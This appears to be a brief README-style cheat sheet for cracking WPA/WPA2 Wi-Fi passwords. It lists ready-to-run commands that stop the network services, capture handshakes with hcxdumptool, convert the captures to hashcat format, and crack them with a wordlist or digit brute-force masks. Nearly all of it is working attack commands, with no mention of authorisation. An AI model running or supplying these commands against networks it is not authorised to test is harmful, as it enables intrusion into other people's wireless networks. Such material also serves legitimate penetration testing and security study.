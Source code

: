 Ensure you have a decent CPU/GPU for this.

For NVIDIA cards you may require to obtain additionally, "CUDA SDK Toolkit"

```
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service

sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15 

sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service

hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng

hashcat -m 22000 hash.hc22000 wordlist.txt

Windows:
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```

----

Convert pcap/cap format to hashcat format.

```/usr/shared/hashcat-utils/cap2hccapx.bin capture.cap capture.hccapx```

----

References:

[WiFi WPA/WPA2 vs hashcat and hcxdumptool](https://www.youtube.com/watch?v=Usw0IlGbkC4)
